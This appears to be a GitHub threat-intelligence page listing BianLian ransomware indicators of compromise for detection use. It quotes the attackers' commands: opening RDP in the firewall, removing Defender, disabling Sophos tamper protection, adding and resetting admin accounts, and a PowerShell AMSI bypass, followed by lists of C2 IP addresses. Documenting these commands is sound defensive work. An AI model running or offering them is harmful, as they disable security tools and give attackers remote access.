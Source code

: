 # \[Bian Lian IOCs\]
[Redacted blog](https://redacted.com/blog/bianlian-ransomware-gang-gives-it-a-go/?utm_source=Internal%20Referrals&utm_campaign=BianLian)

### svchost spawned from parent process that is not services.exe
### svchost spawned from unusual path

### Netsh usage
> `"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes`

> `"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow`

### Disabling Defender
>   `"C:\Windows\system32\Dism.exe" /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart`

### Adding local user account 
> `"C:\Windows\system32\net.exe" localgroup "Remote Desktop Users" <similar name to existing admin> /add`

>   `"C:\Windows\system32\net.exe" user <legitimate admin account> 3gDZNxtsQ9G029k7D6Ljxe /domain`

### Enabling Remote Desktop Connection
>   `"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes`

>   `"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow`

>   `"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /* v fAllowToGetHelp /t REG_DWORD /d 1 /f`

>   `"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal * Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f`

### Disabling Sophos
> `"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SAVEnabled /d 0 /f`

  >`"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SEDEnabled /d 0 /f`

>`"C:\Windows\system32\reg.exe" ADD * HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Sophos\SAVService\TamperProtection /t REG_DWORD /v Enabled /d 0 /* f`

### Enabling TightVNC in Safe Mode
> `"C:\Windows\system32\reg.exe" copy hklm\system\CurrentControlSet\services\tvnserver * hklm\system\CurrentControlSet\control\safeboot\network\tvnserver /s /f`

>`\cmd.exe /Q /c net user "Administrator" /active:yes 1> \\127.0.0.1\C$\Windows\Temp\abjAlC 2>&1`

### Password Change to the local administrator account, output to file
> `cmd.exe /Q /c net user "Administrator" ChangeMe2morrow! 1> \\127.0.0.1\C$\Windows\Temp\OxNEcz 2>&1`

### Running the quser command and saving output to file
 > `cmd.exe /Q /c quser 1> \\127.0.0.1\C$\Windows\Temp\VXPrvY 2>&1`
 
### Ping only once 
 > `"C:\Windows\system32\PING.EXE" -4 -n 1 *`
 
### Powershell AMSI Bypass [more info](https://blog.xpnsec.com/exploring-powershell-amsi-and-logging-evasion/)
>`[Ref].Assembly.GetType(‘System.Management.Automation.AmsiUtils’).GetField(‘amsiInitFailed’,’NonPublic,* Static’).SetValue($null,$true)`

### C2 IP Addresses 
> Current
`("104.225.129.86","104.238.223.10","104.238.223.3","109.248.6.207","13.49.57.110","144.208.127.119","146.0.79.9","157.245.80.66","16.162.137.220","165.22.87.199","172.93.96.61","172.93.96.62","18.130.242.71","185.108.129.242","185.225.69.173","185.56.80.28","185.62.58.151","185.69.53.38","192.145.38.242","192.161.48.43","192.169.6.232","37.235.54.81","45.9.150.132","5.2.79.138","51.68.190.20","54.173.59.51","62.84.112.68","64.52.80.120","66.135.0.42","83.136.180.12","85.13.117.213","85.13.117.218","91.199.209.20","95.179.137.20")
> 

> Historical IPs
`("104.207.155.133","104.238.61.153","146.70.44.248","155.94.160.241","167.88.15.98","172.96.137.107","188.166.81.141","194.26.29.131","194.5.212.205","194.58.119.159","198.252.108.34","202.66.72.7","208.123.119.145","209.141.54.205","23.227.198.243","23.94.56.154","43.155.116.250","45.144.30.139","45.92.156.105","5.188.6.118","5.230.67.2","85.13.116.194","85.13.117.219","89.22.224.3")`
